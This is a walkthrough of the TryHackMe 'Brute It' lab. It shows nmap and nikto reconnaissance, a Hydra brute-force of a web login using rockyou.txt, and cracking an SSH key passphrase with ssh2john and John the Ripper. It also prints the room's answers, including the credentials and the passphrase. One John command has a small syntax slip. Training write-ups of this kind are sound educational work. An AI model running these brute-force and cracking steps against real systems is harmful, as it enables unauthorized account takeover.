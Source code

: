 # TryHackMe: Brute It Walkthrough

This is a walkthrough for the **Brute It** room on TryHackMe. This room challenges you to explore various aspects of reconnaissance, brute-forcing, and privilege escalation. Below are the detailed steps taken to complete the room, along with the answers to each task's questions.

**Link to the room:** [Brute It - TryHackMe](https://tryhackme.com/r/room/bruteit)

## Task 1 - About this box

Deploy the machine and get ready to start exploring.

*No answer needed.*

## Task 2 - Reconnaissance

### Step 1: Port Scanning
First, we perform a port scan using `nmap` to identify open ports on the target machine.

```bash
nmap -vv -T4 -p- 10.10.14.82
```

Answer:

How many ports are open?
2

![thm-brute-it-2](https://github.com/user-attachments/assets/470cd6bc-d7ed-42d2-95f5-1e5638077361)

### Service Enumeration
Next, we check the versions of the services running on the open ports.

SSH version:
- OpenSSH 7.6p1

Apache version:
- 2.4.29

Linux distribution:
- Ubuntu

```bash
nmap -sC -sV -p80,22 10.10.14.82
```

![thm-brute-it-3](https://github.com/user-attachments/assets/a13d4d3d-3448-4f63-89cd-cb2a06847bab)


### Directory Enumeration
We can use a directory brute-forcing tool like gobuster to search for hidden directories on the web server.

Here I chose to use nikto

Answer:

Hidden directory:
/admin

```bash
nikto -h 10.10.14.82
```


## Task 3 - Getting a Shell

Accessing the Admin Panel
Navigate to the /admin directory and locate the login form. 


![thm-brute-it-4](https://github.com/user-attachments/assets/247419ae-7305-4b8a-af44-42ec5c143e95)

Using common credentials, we attempt to brute-force the login to access the admin panel.  

![thm-brute-it-6](https://github.com/user-attachments/assets/5cf4699c-6c9e-4385-a5df-b62db26b99e4)

The View Page Source info reveals that the login form uses a POST method for form data, such as usernames and passwords, to the server via an HTTP POST request.  Also, a hint is provided to answer a question for this task.


![thm-brute-it-5](https://github.com/user-attachments/assets/408f63f2-d46d-41e6-a273-a311945a667c)


Using Burpsuite to view the POST request containing the attempted login with the username and a random password combination:


![thm-brute-it-7](https://github.com/user-attachments/assets/75d26b5b-0a66-4236-8464-4e67b27e6e09)

### HYDRA

Using Hydra to brute-force the form password:

What is the user:password of the admin panel?
- admin:xavier

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.14.82 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![thm-brute-it-8](https://github.com/user-attachments/assets/660cfee0-fdad-4058-a01d-c0cc1f653673)

We use these credentials to login to the web form and we are then presented with the following:

Collect the flag. Then, download the RSA key by clicking on the hyperlink on the webpage:

![thm-brute-it-9](https://github.com/user-attachments/assets/df2f0534-0271-40b5-9b6d-10c4568cf669)

The RSA private key contains the following:


![thm-brute-it-10](https://github.com/user-attachments/assets/597d60c3-79e7-48d3-879e-842c4c687312)


Change the file permissions to enable owner read and write permissions 

```bash
sudo chmod 600 id_rsa
```
Initiate a secure shell connection to the target machine:

```bash
ssh -i id_rsa john@10.10.14.82
```

![thm-brute-it-11](https://github.com/user-attachments/assets/1897ff42-e9fc-4abe-b3d7-256b7960d879)

Oops, it looks like we need to find a passphrase first...

SSH2John is the tool of choice. We can use it to extract the SSH hash from the key file:

```bash
sudo python /usr/share/john/ssh2john.py id_rsa > johnkey.hash
```

![thm-brute-it-12](https://github.com/user-attachments/assets/ece9071c-7492-48ae-badf-e5e16a2aa4af)

And now we can use this hash with John the Ripper tool to crack the passphrase:



Crack the RSA key you found.
What is John's RSA Private Key passphrase?
- rockinroll

```bash
john --wordlist/usr/share/wordlists/rockyou.txt johnkey.hash
```

![thm-brute-it-13](https://github.com/user-attachments/assets/5d67924b-2ec7-47f4-b92c-d40449375dbc)



![thm-brute-it-14](https://github.com/user-attachments/assets/d578ed29-cbcd-4405-a3cd-9ea247803bf0)

![thm-brute-it-15](https://github.com/user-attachments/assets/0602704f-7321-4a48-9a4c-8fa25cd8355c)



![thm-brute-it-16](https://github.com/user-attachments/assets/7c3b9abd-f4d3-4a5f-a40d-902d8f199583)


![thm-brute-it-17](https://github.com/user-attachments/assets/4b4093b5-4590-4e12-aec0-c87a4a511e79)


![thm-brute-it-18](https://github.com/user-attachments/assets/8971f77f-ac57-4889-9d83-9c899e681b9d)


![thm-brute-it-19](https://github.com/user-attachments/assets/1ee36194-bc94-42af-b0fc-a88afadfe132)

